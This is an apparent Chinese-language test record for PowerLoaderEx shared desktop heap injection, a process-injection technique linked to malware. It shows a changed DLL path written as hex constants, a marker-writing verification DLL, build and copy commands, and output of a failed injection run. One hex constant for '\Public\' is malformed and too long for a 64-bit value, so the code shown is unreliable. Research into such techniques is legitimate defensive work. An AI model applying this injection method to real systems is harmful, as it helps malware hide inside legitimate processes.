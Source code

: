 ## 测试配置

### 修改内容

1. **DLL 路径修改** (src/powerloader_ex.c:321-324)
```c
// 原始: c:\x.dll (需要管理员权限)
// 修改为: C:\Users\Public\x.dll
SET_LONG(0x73726573555C3A43ULL);  // "C:\Users"
SET_LONG(0x5C6369636C6275505CULL);  // "\Public\"
SET_LONG(0x0000006C6C642E78ULL);    // "x.dll\0\0\0"
```

2. **验证 DLL 创建** (src/verify_dll.c)
```c
// DllMain 在 DLL_PROCESS_ATTACH 时创建文件
CreateFileA("C:\\Users\\Public\\powerloader_ex_verified.txt", ...)
WriteFile("PowerLoaderEx Injection Verified!...")
```

### 编译命令

```bash
# 编译主程序
cd techniques/22-powerloader-ex
./build.bat

# 编译验证 DLL
cd src
gcc -shared -o verify_dll.dll verify_dll.c -lkernel32
cp verify_dll.dll /c/Users/Public/x.dll
```

## 测试执行

### 执行命令

```bash
cd techniques/22-powerloader-ex
./build/powerloader_ex.exe
```

### 测试输出

```
======================================
  PowerLoaderEx - 共享桌面堆注入
======================================

[*] 窗口创建成功：HWND = 0x00000000001D1A6E

[1] 查找共享桌面堆
    [*] 魔数已写入窗口：0xABABABAB 0xCDCDCDCD 0xABABABAB 0xCDCDCDCD
[!] 无法找到共享桌面堆

[!] PowerLoaderEx 注入失败

======================================
注入完成
======================================
```
